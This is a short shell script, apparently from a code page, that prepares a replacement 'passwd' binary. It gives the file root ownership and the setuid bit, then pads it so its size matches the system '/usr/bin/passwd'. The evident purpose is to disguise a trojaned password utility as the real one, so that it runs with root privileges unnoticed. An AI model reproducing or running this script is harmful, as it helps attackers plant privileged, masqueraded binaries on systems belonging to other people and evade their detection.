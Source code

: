 #!/bin/sh
# prepare binary permissions:
sudo chown root:root ./passwd
sudo chmod 755 ./passwd
sudo chmod u+s ./passwd
# padd file size
SSIZE=$(ls -la ./passwd | cut -d' ' -f5)
OSIZE=$(ls -la /usr/bin/passwd | cut -d' ' -f5)
DIFF=$((OSIZE-SSIZE))
sudo truncate -s +$DIFF ./passwd
ls -la ./passwd && ls -la /usr/bin/passwd